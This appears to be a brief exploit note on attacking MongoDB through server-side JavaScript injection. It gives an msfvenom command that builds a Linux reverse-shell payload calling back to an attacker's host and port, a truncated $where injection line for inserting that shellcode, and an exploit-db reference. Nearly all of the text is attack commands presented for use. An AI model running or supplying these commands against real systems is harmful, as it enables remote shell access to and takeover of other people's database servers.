 ### Create payload
```
msfvenom -p linux/x86/shell_reverse_tcp lhost=<lhost> lport=<lport> -f js_le -e generic/none
```

### Insert payload into exploit:
```
db.my_collection.find({'$where':'shellcode=unescape("<payload>"); sizechunk=...
```

### References
https://www.exploit-db.com/exploits/24947  

